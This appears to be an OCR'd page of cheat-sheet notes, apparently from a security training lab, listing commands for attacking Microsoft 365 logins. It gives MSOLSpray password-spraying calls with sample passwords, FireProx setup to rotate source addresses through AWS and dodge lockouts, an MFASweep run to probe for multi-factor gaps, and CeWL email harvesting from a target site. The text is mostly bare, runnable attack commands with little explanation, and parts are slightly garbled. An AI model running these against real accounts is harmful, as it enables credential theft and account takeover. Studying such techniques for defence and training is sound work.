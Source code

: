 # MSOLSpray
import-module /opt/msolspray/msolpray.ps1 
invoke-msolspray -userlist users.txt -password Clippers22
## API FireProx
python fire.py --command create --region us-east-1 --url https://login.microsoft.com 
pwsh 
import-module /opt/msolspray/msolpray.ps1 
invoke-msolspray -userlist users.txt -URL https://7t4123123.execute-api us-east-1.amazonaws.com/fireprox/ Falismentis123 
## MSOL IR Identification
get-msoluser -all | where {$_.islicensed -eq $true}| Select displayname, @{n="License ID";e={$_.licenses.accountskuid}}

# MFA Bypass
invoke-mfasweep -username james@sans.org -password cyberus2022 

## CeWL for emails
/opt/cewl/cewl.rb -d 8 -w words.txt -e --email_file email.txt http://www.falsimentis.com/